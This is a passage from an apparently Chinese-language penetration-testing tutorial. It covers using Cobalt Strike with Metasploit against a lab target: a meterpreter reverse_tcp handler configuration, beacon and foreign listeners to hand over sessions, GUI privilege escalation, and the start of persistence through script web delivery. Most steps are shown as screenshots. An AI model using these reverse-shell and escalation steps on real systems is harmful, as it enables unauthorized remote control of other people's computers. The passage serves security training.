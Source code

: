 靶机成功上线<br />![](https://img-blog.csdnimg.cn/b84f4adf50fc4faa9df2ae374f26a88b.png#crop=0&crop=0&crop=1&crop=1&id=mNEJC&originHeight=172&originWidth=867&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/97b04b00dbab416e81c2371f6b08bd9b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ATScH&originHeight=504&originWidth=627&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 联动MSF（shell）
MSF开启监听
```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.183.147
set lport 4444
run
```
![](https://img-blog.csdnimg.cn/9f77af7842af4d688373f8563ef8b3aa.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=hovCX&originHeight=289&originWidth=935&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

创建两个监听器，一个使用windows/beacon_http/reverse_http来监听肉鸡，另一个使用windows/foreign/reverse_http来将获取到的控制权传给msf(注意：这里的端口要与msf监听的端口一致)
![](https://img-blog.csdnimg.cn/9a8141e3c3aa498a8ad3f1d1acf93e81.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_14,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=jGhR1&originHeight=525&originWidth=495&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/b63125aeeed54fa0a67c8dfe166179c1.png#crop=0&crop=0&crop=1&crop=1&id=giXtn&originHeight=111&originWidth=1121&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当目标上线后，选择目标点击鼠标右键选择增加会话<br />![](https://img-blog.csdnimg.cn/95f97a704a3a44d6b08c069bb061b724.png#crop=0&crop=0&crop=1&crop=1&id=YIWkI&originHeight=220&originWidth=206&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/e2e93822246e40db94ba4c0af8fcff6a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=U7zfV&originHeight=267&originWidth=702&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

获取到的会话不稳定<br />![](https://img-blog.csdnimg.cn/eeeb9bf0edc8465aa2aec42ed583aa97.png#crop=0&crop=0&crop=1&crop=1&id=o0DcU&originHeight=166&originWidth=735&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
选中目标点击鼠标右键选择执行->提权<br />![](https://img-blog.csdnimg.cn/37d81fc6388e4998b5b90b271a621822.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=me87Y&originHeight=296&originWidth=817&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

选择监听器<br />![](https://img-blog.csdnimg.cn/55f83fc2770a44009b9cfcdf404115e8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=NrI0O&originHeight=508&originWidth=756&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

提权成功<br />![](https://img-blog.csdnimg.cn/b195fbd52da94d3b840a6f208bab2c6e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=o3EzR&originHeight=347&originWidth=942&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 权限维持
点击攻击->钓鱼攻击->script web delivery<br />![](https://img-blog.csdnimg.cn/1ede100b77a54420bf5821c8575ad22c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_11,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=QtDYf&originHeight=288&originWidth=390&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
